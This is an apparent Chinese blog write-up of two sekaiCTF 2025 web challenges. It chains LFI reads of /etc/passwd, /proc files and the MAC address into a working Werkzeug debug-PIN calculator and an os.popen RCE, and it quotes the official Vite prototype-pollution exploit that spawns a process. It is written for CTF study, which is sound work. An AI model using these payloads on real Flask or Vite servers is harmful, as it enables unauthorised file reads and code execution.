


[sekaiCTF 2025] 部分赛题复现
===

错过了今年的 sekai CTF, 做一下里面的题看看;

> ~不得不说 sekai CTF 的 UI 做的非常精美, 看着跟音游一样; 看了一下果然是樱花友人办的~

## [Web] My flask app

### 信息收集

#### 前端

用 docker 搭完了之后启动:


需要点这个确定, 不过鼠标移动过去按钮就会自己跑; 看一下源码:

```javascript
this.yesBtn.addEventListener('mouseenter', () => this.handleYesHover());

handleYesHover() {
    this.moveButtonsRandomly();
}
```

现在知道这个按钮叫 `yesBtn`, 试试在控制台直接输入:

```javascript
document.getElementById('yesBtn').click();
```



输出了个成功文本, 但是好像也没什么用, 考虑别的方向;

#### 目录爆破


扫出控制台界面, 这是一个很经典的 Flask 控制台地址, 需要 PIN 码登录, 显然这里也只能搁置; 只能再扫, 换 kali 上的 `gobuster` 扫出还有其他界面:


> 这里应该是字典问题, 把 `gobuster` 的这个字典拷贝出来就行了, 也算个坑, 下次需要注意;
> 换上大字典之后就扫出来了:
>  

### 文件包含漏洞 

访问这个 `/view` , 显示 "Filename is required", 加上这个参数:

```
/view?filename=/etc/passwd
```


爆出 passwd 了, 说明有 LFI; 接下来尝试读 flask 的默认位置 app 文件:

```
/view?filename=/app/app.py
```

爆出源码:

```python
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/')
def hello_world():
    return render_template('index.html')

@app.route('/view')
def view():
    filename = request.args.get('filename')
    if not filename:
        return "Filename is required", 400
    try:
        with open(filename, 'r') as file:
            content = file.read()
        return content, 200
    except FileNotFoundError:
        return "File not found", 404
    except Exception as e:
        return f"Error: {str(e)}", 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

再确认一下环境: python 3.11.14

```
/view?filename=/proc/self/environ
```


### 破解 Flask PIN

#### PIN 组成

> 之前在 Polar CTF 一篇笔记里已经记过, 再记一遍: [PolarCTF: Flask_pin](https://r4x.top/2025/09/27/polar_wp1/#WEB-flask-pin)

Flask 的 PIN 码计算仅与 werkzeug 的 debug 模块有关: **低版本用 MD5, 高版本用 SHA1**(一般是 Python 3.8+); 显然这里就是 SHA1

PIN 六大生成要素:

- username, 用户名;
- modname, 默认为 flask.app;
- appname, 默认为 Flask;
- moddir, flask 库下 app.py 的绝对路径;
- uuidnode, 网络地址 mac 的十进制数;
- machine_id, 机器 id, docker 也会读;

#### 利用 LFI 读关键信息

1. 网卡信息: 

```
/view?filename=/sys/class/net/eth0/address
```


转为十进制之后是 `2485378023426`;

2. 机器 id:

```
/view?filename=/etc/machine-id
/view?filename=/proc/self/cgroup
```

`machine-id` 显示不存在, 而 `/proc/self/cgroup` 显示为 `0::/`, 这也是个无效地址, 考虑其他替代方案

3. boot id: `55acad97-d910-4579-af72-9ee4bb49cc30 `

```
/view?filename=/proc/sys/kernel/random/boot_id
```


为什么要读这个数据, 稍后会总结;

4. userid: 在 `/etc/passwd` 中之前就能看见有一个显然是用户自建的账户, 叫做 `nobody`, 应该就是这个, 如果不对, 再尝试 root;

#### **Flask PIN 对 Boot id 的读取**

查阅了一下资料和源码, Flask PIN 在 **`machine-id` 不存在**的时候会转向 `boot-id` 来生成, 源码片段有:

```python
for filename in '/etc/machine-id', '/proc/sys/kernel/random/boot_id'
```

按这个顺序尝试读取。若第一个成功, 就用第一个; 否则尝试第二个。

#### Flask PIN 与 Werkzeug

此外, 还需要知道一点, Flask PIN 的生成算法是高度依赖 Werkzeug 的版本的

#### exp

随便截一个包, 能看见版本: 

> Werkzeug/3.1.3 Python/3.11.14

```python
# 高版本用 SHA1, 低版本用 MD5
# python 3.11.14
import hashlib
from itertools import chain
probably_public_bits = [
    'nobody',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    # getattr(mod, '__file__', None),
    '/usr/local/lib/python3.11/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',  # str(uuid.getnode()),  /sys/class/net/eth0(网卡名字)/address


    '55acad97-d910-4579-af72-9ee4bb49cc30'
    # get_machine_id(), /etc/machine-id, 如果是容器环境, 还可能会贴上 /proc/self/cgroup
    #
    # 如果 machine-id 不存在, 则会使用 boot_id, /proc/sys/kernel/random/boot_id, 注意, 第二个参数的横线别删!!
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
for group_size in (5, 4, 3):
    if len(num) % group_size == 0:
        rv = '-'.join(
            num[x:x + group_size].rjust(group_size, '0')
            for x in range(0, len(num), group_size)
        )
        break
else:
    rv = num

print(rv)
```


解开控制台:


#### RCE

这样执行就行了, 和 ssti 的 rce 差不多:

```python
__import__('os').popen('cmd').read()
```


拿到 flag;

### 总结

题目考查 LFI + Flask PIN 的组合拳, 最后实现 RCE, 中间踩了一些小坑, 在这里记录一下:

- Flask PIN 生成要素的机器码部分有顺位读取的机制;
- userid 去 `/etc/passwd` 看;
- 机器码部分的横线 `-` 别删!!

## [Web] vite

用 docker 搭完建了个 `9002:1337` 的端口映射。



### 题解

完全没有头绪, fuzz 和路由也没有发现, 只能看一下官方 wp:

```python
import requests, base64

base_url = "http://127.0.0.1:9002"
# base_url = "https://vite-bjkv8aqvjdlb.chals.sekai.team/"

resp = requests.post(
    f"{base_url}/a",
    data={
        "__proto__.source": """
Object.prototype.flag = btoa(process.binding('spawn_sync').spawn({ file: '/flag', args: [ '/flag' ], stdio: [ {type:'pipe',readable:!0,writable:!1}, {type:'pipe',readable:!1,writable:!0}, {type:'pipe',readable:!1,writable:!0} ]}).output.toString())
""",
    },
    headers={
        "Origin": base_url,
    },
    verify=False,
)

print(base64.b64decode(resp.headers['flag']).decode())
```

这居然是个**原型链污染**漏洞, 实在是没想到。过段时间再恶补这块的知识。

## [Web] 